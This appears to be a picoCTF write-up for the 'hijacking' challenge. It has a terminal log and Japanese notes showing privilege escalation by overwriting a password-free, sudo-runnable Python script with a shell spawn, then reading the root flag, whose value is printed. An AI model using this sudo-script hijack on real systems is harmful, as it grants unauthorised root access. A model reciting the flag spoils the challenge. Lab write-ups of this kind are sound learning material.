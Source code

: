 # hijacking:bynary Medium  
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.  

Additional details will be available after launching your challenge instance.  

# Solution  
ssh接続する  
ssh -p 56840 picoctf@saturn.picoctf.net  
The authenticity of host '[saturn.picoctf.net]:56840 ([13.59.203.175]:56840)'n't be established.  
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.  
This host key is known by the following other names/addresses:  
    ~/.ssh/known_hosts:32: [hashed name]  
    ~/.ssh/known_hosts:35: [hashed name]  
    ~/.ssh/known_hosts:36: [hashed name]  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
Warning: Permanently added '[saturn.picoctf.net]:56840' (ED25519) to the list of known hosts.  
picoctf@saturn.picoctf.net's password:   
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)  

 * Documentation:  https://help.ubuntu.com  
 * Management:     https://landscape.canonical.com  
 * Support:        https://ubuntu.com/advantage  

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.  

To restore this content, you can run the 'unminimize' command.  

picoctf@challenge:~$ ls -la  
total 16  
drwxr-xr-x 1 picoctf picoctf   20 Jul  6 06:39 .  
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..  
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoctf picoctf   34 Jul  6 06:39 .cache  
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile  
-rw-r--r-- 1 root    root     375 Feb  7  2024 .server.py  


The programs included with the Ubuntu system are free software;  
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.  

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.  

picoctf@challenge:~$ sudo -l  
Matching Defaults entries for picoctf on challenge:  
    env_reset, mail_badpass,  
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  

User picoctf may run the following commands on challenge:  
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py  

picoctf@challenge:~$ cat .server.py  
import base64  
import os  
import socket  
ip = 'picoctf.org'  
response = os.system("ping -c 1 " + ip)  
#saving ping details to a variable  
host_info = socket.gethostbyaddr(ip)   
#getting IP from a domaine  
host_info_to_str = str(host_info[2])  
host_info = base64.b64encode(host_info_to_str.encode('ascii'))  
print("Hello, this is a part of information gathering",'Host: ', host_info)  
picoctf@challenge:~$ vi .server.py  
picoctf@challenge:~$ cat .server.py  
import os  
os.system("/bin/bash")  

picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py  
root@challenge:/home/picoctf# ls -la  
total 24  
drwxr-xr-x 1 picoctf picoctf   73 Jul  6 06:42 .  
drwxr-xr-x 1 root    root      21 Aug  4  2023 ..  
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout  
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc  
drwx------ 2 picoctf picoctf   34 Jul  6 06:39 .cache  
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile  
-rw-r--r-- 1 picoctf picoctf   33 Jul  6 06:42 .server.py  
-rw-r--r-- 1 picoctf picoctf  375 Feb  7  2024 .server.py~  
-rw------- 1 picoctf picoctf  812 Jul  6 06:42 .viminfo  
root@challenge:/home/picoctf# cd /  
root@challenge:/# ls -la  
total 0  
drwxr-xr-x   1 root   root     51 Jul  6 06:38 .  
drwxr-xr-x   1 root   root     51 Jul  6 06:38 ..  
-rwxr-xr-x   1 root   root      0 Jul  6 06:38 .dockerenv  
lrwxrwxrwx   1 root   root      7 Mar  8  2023 bin -> usr/bin  
drwxr-xr-x   2 root   root      6 Apr 15  2020 boot  
d---------   1 root   root      6 Sep 26  2024 challenge  
drwxr-xr-x   5 root   root    340 Jul  6 06:38 dev  
drwxr-xr-x   1 root   root     66 Jul  6 06:38 etc  
drwxr-xr-x   1 root   root     21 Aug  4  2023 home  
lrwxrwxrwx   1 root   root      7 Mar  8  2023 lib -> usr/lib  
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib32 -> usr/lib32  
lrwxrwxrwx   1 root   root      9 Mar  8  2023 lib64 -> usr/lib64  
lrwxrwxrwx   1 root   root     10 Mar  8  2023 libx32 -> usr/libx32  
drwxr-xr-x   2 root   root      6 Mar  8  2023 media  
drwxr-xr-x   2 root   root      6 Mar  8  2023 mnt  
drwxr-xr-x   2 root   root      6 Mar  8  2023 opt  
dr-xr-xr-x 241 nobody nogroup   0 Jul  6 06:38 proc  
drwx------   1 root   root     23 Sep 26  2024 root  
drwxr-xr-x   1 root   root     54 Jul  6 06:39 run  
lrwxrwxrwx   1 root   root      8 Mar  8  2023 sbin -> usr/sbin  
drwxr-xr-x   2 root   root      6 Mar  8  2023 srv  
dr-xr-xr-x  13 nobody nogroup   0 Jul  6 06:38 sys  
drwxrwxrwt   1 root   root      6 Sep 26  2024 tmp  
drwxr-xr-x   1 root   root     18 Mar  8  2023 usr  
drwxr-xr-x   1 root   root     17 Mar  8  2023 var  
root@challenge:/# cd root  
root@challenge:~# ls -la  
drwx------ 1 root root   23 Sep 26  2024 .  
drwxr-xr-x 1 root root   51 Jul  6 06:38 ..  
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc  
-rw-r--r-- 1 root root   43 Sep 26  2024 .flag.txt  
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile  
root@challenge:~# cat .flag.txt  
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}  

# 考えたこと  
ユーザ権限をルートへの昇格を狙う。  
SUDO -lをしたところ/usr/bin/python3 /home/picoctf/.server.pyはパスワードがいらないことがわかった。  
なので、次に.server.pyを編集する。（.server.pyに書き込み権限があるため実行できる）  
そして、SUDOで/usr/bin/python3 /home/picoctf/.server.pyを実行するとルートへ昇格できた。  
最後にルートディレクトリのFLAG.txtをcatコマンドで実行するとFLAG.txtが獲得できた  